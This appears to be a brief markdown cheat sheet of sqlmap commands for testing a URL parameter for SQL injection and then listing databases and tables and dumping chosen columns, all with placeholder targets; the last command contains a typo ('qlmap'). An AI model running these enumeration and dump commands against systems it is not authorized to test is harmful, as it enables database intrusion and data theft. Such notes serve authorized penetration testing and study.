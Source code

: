 # sqlmap

## Scanning

```
sqlmap -u <url> -p <param>
sqlmap -u <url> -p <param> -v3
sqlmap -u <url> -p <param> --flush-session #forget previous results
```

### Post request

```
sqlmap -u <url> --data='<post body>' -p <param>
sqlmap -r <path to .req file> -p <param>
```

### Configure technique

```
sqlmap -u <url>?<param to test>=<value> -p <param> --technique <tech>
```

## Post exploitation

```
sqlmap -u <url> -p <param> --banner --fresh-queries
sqlmap -u <url> -p <param> --dbs
```

### Database enumeration

```
sqlmap -u <url> -p <param> -D <db> --tables
sqlmap -u <url> -p <param> -D <db> -T <table> --columns
```

### Dump

```
qlmap -u <url> -p <param> -D <db> -T <table> -C <col1,col2...> --dump
```
